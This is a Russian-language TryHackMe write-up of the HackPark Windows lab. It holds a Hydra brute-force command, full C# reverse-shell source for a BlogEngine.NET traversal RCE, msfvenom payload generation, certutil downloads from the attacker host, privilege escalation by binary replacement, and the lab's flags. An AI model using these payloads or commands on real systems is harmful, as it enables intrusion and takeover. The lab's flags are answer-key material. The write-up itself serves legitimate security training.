


# TryHackMe - Win Medium - HackPark

📅 Дата: 2025-07-04  
🧠 Сложность: Medium  
💻 IP-адрес: 10.10.53.26  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -n --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=10.10.53.26 && nmap_ctf $ip
```

🖼️ Nmap скан:

```bash
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
|_http-title: hackpark | hackpark amusements
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Issuer: commonName=hackpark
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2025-07-03T09:05:56
| Not valid after:  2026-01-02T09:05:56
| MD5:   1833:f9a1:7702:db27:fe1c:8dba:9fc6:865d
|_SHA-1: 7a88:0c48:18aa:4533:f156:db6e:54d3:df39:08c0:ae09
|_ssl-date: 2025-07-04T09:19:49+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2025-07-04T09:19:44+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Uptime guess: 0.010 days (since Fri Jul  4 05:05:03 2025)
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

---

## 🕵️ Enumeration

Login Brute with Hydra
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/scans]
└─$ hydra -l admin -P /media/sf_Exchange/Dictionaries/rockyou.txt -t 40 $ip -s 80 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=jmeTjZ7PmcvuwStr2W3ZM9I%2Bkd6PnFk2WtONu1UQsZ%2BAht2wl0LIZPECnY%2Bsq%2FQiakuMzkzTMsVdJwi7KdLTHJ4D9hXEMVFlkONCD%2FySW8pKNDK7rzHbWfgm9ypeAy1K2SAS3DAivKVIoi4q9AP7EAUF4ueYfPzNPh2ecNwtRCr2Zwam&__EVENTVALIDATION=fRGCMUKDt8RMmdUcD%2F8T3Z3q8oVlLsbt8js6skEXr494OrEbp894EcmAg05GcsS%2FzoceQhhTYuUWzh2lEyQ03QX65nz4AvB798HRR%2F%2BJ%2FYo84%2B8vxQfETylrP3FauP6xcDhW57d64TFIGSUaw5FRol8h5s7RIMhAvv%2BH%2FTQPbald7P%2BY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24RememberMe=on&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-04 05:25:16
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344398 login tries (l:1/p:14344398), ~358610 tries per task
[DATA] attacking http-post-form://10.10.53.26:80/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=jmeTjZ7PmcvuwStr2W3ZM9I%2Bkd6PnFk2WtONu1UQsZ%2BAht2wl0LIZPECnY%2Bsq%2FQiakuMzkzTMsVdJwi7KdLTHJ4D9hXEMVFlkONCD%2FySW8pKNDK7rzHbWfgm9ypeAy1K2SAS3DAivKVIoi4q9AP7EAUF4ueYfPzNPh2ecNwtRCr2Zwam&__EVENTVALIDATION=fRGCMUKDt8RMmdUcD%2F8T3Z3q8oVlLsbt8js6skEXr494OrEbp894EcmAg05GcsS%2FzoceQhhTYuUWzh2lEyQ03QX65nz4AvB798HRR%2F%2BJ%2FYo84%2B8vxQfETylrP3FauP6xcDhW57d64TFIGSUaw5FRol8h5s7RIMhAvv%2BH%2FTQPbald7P%2BY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24RememberMe=on&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed
[80][http-post-form] host: 10.10.53.26   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-04 05:26:15
```

Creds are 
login: **admin**   password: **1qaz2wsx**


## 📂 Получение доступа

Exploit для BlogEngine.NET <= 3.3.6 Directory Traversal RCE
```js
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.21.104.16", 4444)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

Загрузка эксплойта


Перейдя по url "http://10.10.10.10/?theme=../../App_Data/files" получаю reverse от iis
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/exploits]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.21.104.16] from (UNKNOWN) [10.10.50.38] 49239
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```


## ⚙️ Привилегии

Получаю немного информации о системе, чтобы сгенерировать правильную полезную нагрузку
```bash
set pro
c:\windows\system32\inetsrv>set pro
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=4f01
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
```

И генерирую с помощью msfvenom
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/exploits]
└─$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.21.104.16 LPORT=5555 -f exe -o meter-5555.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: meter-5555.exe
```

Из директории с оболочкой meterpreter запускаю сервер
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/exploits]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

Перемещаюсь в директорию с возможностью записи и скачиваю на жертву meter-5555.exe
```bash
c:\Users\Public>certutil -urlcache -f http://10.21.104.16:8888/meter-5555.exe meter-5555.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
dir
c:\Users\Public>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Users\Public
07/04/2025  06:01 AM    <DIR>          .
07/04/2025  06:01 AM    <DIR>          ..
08/22/2013  08:39 AM    <DIR>          Documents
08/22/2013  08:39 AM    <DIR>          Downloads
07/04/2025  06:01 AM            73,802 meter-5555.exe
08/22/2013  08:39 AM    <DIR>          Music
08/22/2013  08:39 AM    <DIR>          Pictures
08/22/2013  08:39 AM    <DIR>          Videos
               1 File(s)         73,802 bytes
               7 Dir(s)  39,125,962,752 bytes free
```

Выполняю на жертве **.\meter-5555.exe** и ловлю meterpreter в msfconsole
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.21.104.16:5555 
[*] Sending stage (176198 bytes) to 10.10.50.38
[*] Meterpreter session 1 opened (10.21.104.16:5555 -> 10.10.50.38:49271) at 2025-07-04 09:04:45 -0400

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

Загружаю winPEAS
```bash
certutil -urlcache -f http://10.21.104.16:8888/winPEASx64.exe winPEASany.exe
```

Нахожу такой сервис


Среди прочего
```bash
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```

Перехожу в **"c:\Program Files (x86)\SystemScheduler"**
```bash
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040777/rwxrwxrwx  4096     dir   2025-07-04 10:20:34 -0400  Events
100666/rw-rw-rw-  60       fil   2019-08-04 07:36:42 -0400  Forum.url
100666/rw-rw-rw-  9813     fil   2004-11-16 02:16:34 -0500  License.txt
100666/rw-rw-rw-  1496     fil   2025-07-04 08:27:30 -0400  LogFile.txt
100666/rw-rw-rw-  3760     fil   2025-07-04 08:28:01 -0400  LogfileAdvanced.txt
100777/rwxrwxrwx  536992   fil   2018-03-25 13:58:56 -0400  Message.exe
100777/rwxrwxrwx  445344   fil   2018-03-25 13:59:00 -0400  PlaySound.exe
100777/rwxrwxrwx  27040    fil   2018-03-25 13:58:58 -0400  PlayWAV.exe
100666/rw-rw-rw-  149      fil   2019-08-04 18:05:19 -0400  Preferences.ini
100777/rwxrwxrwx  485792   fil   2018-03-25 13:58:58 -0400  Privilege.exe
100666/rw-rw-rw-  10100    fil   2018-03-24 15:09:04 -0400  ReadMe.txt
100777/rwxrwxrwx  112544   fil   2018-03-25 13:58:58 -0400  RunNow.exe
100777/rwxrwxrwx  235936   fil   2018-03-25 13:58:56 -0400  SSAdmin.exe
100777/rwxrwxrwx  731552   fil   2018-03-25 13:58:56 -0400  SSCmd.exe
100777/rwxrwxrwx  456608   fil   2018-03-25 13:58:58 -0400  SSMail.exe
100777/rwxrwxrwx  1633696  fil   2018-03-25 13:58:52 -0400  Scheduler.exe
100777/rwxrwxrwx  491936   fil   2018-03-25 13:59:00 -0400  SendKeysHelper.exe
100777/rwxrwxrwx  437664   fil   2018-03-25 13:58:56 -0400  ShowXY.exe
100777/rwxrwxrwx  439712   fil   2018-03-25 13:58:56 -0400  ShutdownGUI.exe
100666/rw-rw-rw-  785042   fil   2006-05-16 19:49:52 -0400  WSCHEDULER.CHM
100666/rw-rw-rw-  703081   fil   2006-05-16 19:58:18 -0400  WSCHEDULER.HLP
100777/rwxrwxrwx  136096   fil   2018-03-25 13:58:58 -0400  WSCtrl.exe
100777/rwxrwxrwx  68512    fil   2018-03-25 13:58:54 -0400  WSLogon.exe
100666/rw-rw-rw-  33184    fil   2018-03-25 13:59:00 -0400  WSProc.dll
100666/rw-rw-rw-  2026     fil   2006-05-16 18:58:18 -0400  WScheduler.cnt
100777/rwxrwxrwx  331168   fil   2018-03-25 13:58:52 -0400  WScheduler.exe
100777/rwxrwxrwx  98720    fil   2018-03-25 13:58:54 -0400  WService.exe
100666/rw-rw-rw-  54       fil   2019-08-04 07:36:42 -0400  Website.url
100777/rwxrwxrwx  76704    fil   2018-03-25 13:58:58 -0400  WhoAmI.exe
100666/rw-rw-rw-  1150     fil   2007-05-17 16:47:02 -0400  alarmclock.ico
100666/rw-rw-rw-  766      fil   2003-08-31 15:06:08 -0400  clock.ico
100666/rw-rw-rw-  80856    fil   2003-08-31 15:06:10 -0400  ding.wav
100666/rw-rw-rw-  1637972  fil   2009-01-08 22:21:48 -0500  libeay32.dll
100777/rwxrwxrwx  40352    fil   2018-03-25 13:59:00 -0400  sc32.exe
100666/rw-rw-rw-  766      fil   2003-08-31 15:06:26 -0400  schedule.ico
100666/rw-rw-rw-  355446   fil   2009-01-08 22:12:34 -0500  ssleay32.dll
100666/rw-rw-rw-  6999     fil   2019-08-04 07:36:42 -0400  unins000.dat
100777/rwxrwxrwx  722597   fil   2019-08-04 07:36:32 -0400  unins000.exe
100666/rw-rw-rw-  6574     fil   2009-06-26 20:27:32 -0400  whiteclock.ico
```

И читаю логи, нахожу Message.exe, который запускается каждые 30 секунд
```bash
meterpreter > cd Events
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1927   fil   2025-07-04 10:21:33 -0400  20198415519.INI
100666/rw-rw-rw-  33158  fil   2025-07-04 10:21:33 -0400  20198415519.INI_LOG.txt
100666/rw-rw-rw-  290    fil   2020-10-02 17:50:12 -0400  2020102145012.INI
100666/rw-rw-rw-  186    fil   2025-07-04 10:21:15 -0400  Administrator.flg
100666/rw-rw-rw-  182    fil   2025-07-04 10:21:12 -0400  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2025-07-04 08:28:01 -0400  Scheduler.flg
100666/rw-rw-rw-  449    fil   2025-07-04 10:21:15 -0400  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2025-07-04 10:21:31 -0400  service.flg

meterpreter > cat 20198415519.INI_LOG.txt
08/04/19 15:06:01,Event Started Ok, (Administrator)
08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
08/04/19 15:07:00,Event Started Ok, (Administrator)
08/04/19 15:07:34,Process Ended. PID:2680,ExitCode:4,Message.exe (Administrator)
08/04/19 15:08:00,Event Started Ok, (Administrator)
08/04/19 15:08:33,Process Ended. PID:2768,ExitCode:4,Message.exe (Administrator)
08/04/19 15:09:00,Event Started Ok, (Administrator)
08/04/19 15:09:34,Process Ended. PID:3024,ExitCode:4,Message.exe (Administrator)
08/04/19 15:10:00,Event Started Ok, (Administrator)
08/04/19 15:10:33,Process Ended. PID:1556,ExitCode:4,Message.exe (Administrator)
```

Загружаю **meter-5555.exe** в **"c:\Program Files (x86)\SystemScheduler\"** вместо **Message.exe** и получаю SYSTEM
```bash
meterpreter > upload /home/kali/Labs/TryHackMe/Win\ Medium\ -\ HackPark/exploits/meter-5555.exe
meterpreter > mv Message.exe Message.bak
meterpreter > mv meter-5555.exe Message.exe
meterpreter > exit
[*] Shutting down session: 1

[*] 10.10.50.38 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.21.104.16:5555 
[*] Sending stage (176198 bytes) to 10.10.50.38
[*] Meterpreter session 2 opened (10.21.104.16:5555 -> 10.10.50.38:49394) at 2025-07-04 10:50:06 -0400

meterpreter > shell
Process 2620 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>
```


## 🏁 Флаги

- User flag: 759bd8af507517bcfaede78a21a73e39 
- Root flag: 7e13d97f05f7ceb9881a3eb3d78d3e72 

---
